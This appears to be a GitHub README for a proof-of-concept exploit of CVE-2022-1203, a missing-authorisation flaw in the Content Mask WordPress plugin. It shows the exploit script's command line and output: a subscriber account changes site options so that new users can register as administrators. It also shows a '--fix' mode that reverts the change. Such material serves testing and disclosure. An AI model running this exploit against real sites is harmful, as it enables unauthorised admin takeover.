 # CVE-2022-1203
Content Mask &lt; 1.8.4 - Subscriber+ Arbitrary Options Update

## Description

The Content Mask WordPress plugin before 1.8.4.1 does not have authorisation and CSRF checks in various AJAX actions, as well as does not validate the option to be updated to ensure it belongs to the plugin. As a result, any authenticated user, such as subscriber could modify arbitrary blog options


## How to use

Exploit
---
```

$ python3 CVE-2022-1203.py -u http://wordpress.lan -un user -p useruser1
The plugin version is below 1.8.3.2.
The plugin version is 1.8.3.2
Vulnerability check: http://wordpress.lan
Logged in successfully.
Option set successfully: http://wordpress.lan/wp-admin/admin-ajax.php
Option set successfully: http://wordpress.lan/wp-admin/admin-ajax.php
You can now register a user as an admin user. Remember to run --fix yes after you have registered to prevent others exploiting the site.
```

Fix
---
```
python3 CVE-2022-1203.py -u http://wordpress.lan -un user -p useruser1 --fix yes
Vulnerability check: http://wordpress.lan
Logged in successfully.
Option set successfully: http://wordpress.lan/wp-admin/admin-ajax.php
Option set successfully: http://wordpress.lan/wp-admin/admin-ajax.php
Fixed: You can not longer register

```
